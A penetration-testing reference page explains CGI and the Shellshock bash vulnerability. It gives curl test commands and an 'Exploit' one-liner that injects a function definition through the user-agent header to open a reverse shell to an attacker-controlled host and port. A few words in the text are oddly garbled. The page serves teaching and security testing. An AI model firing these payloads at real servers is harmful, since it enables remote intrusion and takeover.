 ```yaml
---
title: CGI
---
```


# Common Gateway Interface

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called `cgi-bin`, to handle the requests correctly and execute the program instead of returning the file content.  [^oreilly-cgi]

## Shellshock

Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) is an Arbitrary Code Execution (ACE) vulnerability that affects Linux and Unix command-line shell, aka the GNU Bourne Again Shell.

GNU Bourne Again Shell, or Bash, is an interpreter that allows users to send commands on Unix and Linux systems, typically by connecting over SSH or Telnet but it can also operate as a parser for CGI scripts.

{{<hint info>}}
In addition to CGI-based web servers, it also affects OpenSSH servers, DHCP clients, Qmail servers and restricted shells of the IBM Hardm. Management Console (IBM HMC)
{{</hint>}}

The vulnerability occurs when the variables sent to the server, are passed and interpreted by Bash. This variable involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports the function.


```
Environment variable with
function definition                          Expected command
         +                                          +
         |                                          |
+--------+--------+ +----------------+ +------------+--------------+
| env x='() { :;};| |echo vulnerable'| |bash -c "echo Real command"|
+-----------------+ +-------+--------+ +---------------------------+
                            |
                            +
            Arbitrary command executed by Bash
```

### Test

#### Reflected

```sh
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://{{< param "m.RHOST" >}}/cgi-bin/vulnerable | grep vulnerable
```

#### Blind

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://{{< param "m.RHOST" >}}/cgi-bin/vulnerable
```

{{<details "Parameters">}}
- `-f`: fail silently on HTTP errors.
- `-s`: silent mode.
- `-H`: pass custom header(s) to server.
{{</details>}}

### Exploit

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/{{< param "m.LHOST" >}}/{{< param "m.LPORT" >}} 0>&1" http://{{< param "m.RHOST" >}}/cgi-bin/vulnerable
```

## Further Reading

- [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
- [Wikipedia - Shellshock (softm. bug)](https://en.wikipedia.org/wiki/Shellshock_(softm._BUG))

[^oreilly-cgi]: Gundavaram, Shishir. “The Common Gateway Interface (CGI).” O’Reilly Media - Technology and Business Training, O’Reilly & Associates, Inc., https://www.oreilly.com/openbook/cgi/ch01_01.html.
